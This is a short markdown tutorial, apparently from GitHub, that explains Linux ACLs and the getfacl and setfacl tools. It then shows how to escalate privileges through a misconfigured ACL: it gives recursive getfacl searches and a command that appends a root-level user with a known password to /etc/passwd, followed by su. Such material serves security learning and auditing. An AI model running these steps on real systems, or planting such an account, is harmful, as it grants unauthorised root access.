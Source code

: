 ## Access Control List (ACL) in Linux
ACL allow us to appy a mpre specific set of permissions to a file or directory without chaning the base ownership and permissions. In this we can assain a particular user a specfic permission and give two or more group permission.

## The primary tools for managing ACLs are:
- **getfacle**: – View ACL permissions
- **setfacl**: – Modify ACL permissions

## Checking ACL permissions
Use the getfacl command to check if a file or directory has ACLs set:
```bash
getfacl /file-path
```

Example output:
```bash
# file: file-name
# owner: root
# group: root
user::rw-
user:user1:rwx
group::r--
mask::rwx
other::---
```
Here, the user user1 has rwx permissions on the file, even though he is not the owner.
# **Exploiting Misconfigured ACLs**
If a user has excessive permissions on sensitive files or executables, privilege escalation may be possible.

### **The getfacl command retrieves Access Control List (ACL) information for files and directories to find unusual permissions.**
```bash
 getfacl -t -s -R -p /etc /opt /tmp /bin /home /root /sbin /usr 2> /dev/null 
 getfacl -t -s -R -p / 2> /dev/null 
```

### **Write Permissions on /etc/passwd**
If an unprivileged user has write access to /etc/passwd, they can modify it to create a new user with root privileges.

Check ACLs on /etc/passwd
```bash
getfacl /etc/passwd
```
output:
```bash
# file: etc/passwd
# owner: root
# group: root
user::rw-
user:user1:rwx
group::r--
mask::rwx
other::---
```
user1 has write access, they can add a new root user manually:
```bash
echo 'rootme:$1$gi/ZEUV2$uaJQ9FUakihoLNuErGCkw0:0:0:root:/root:/bin/bash' >> /etc/passwd
```
Then, switch to the new root user:
```bash
su rootme
```
Password is 123

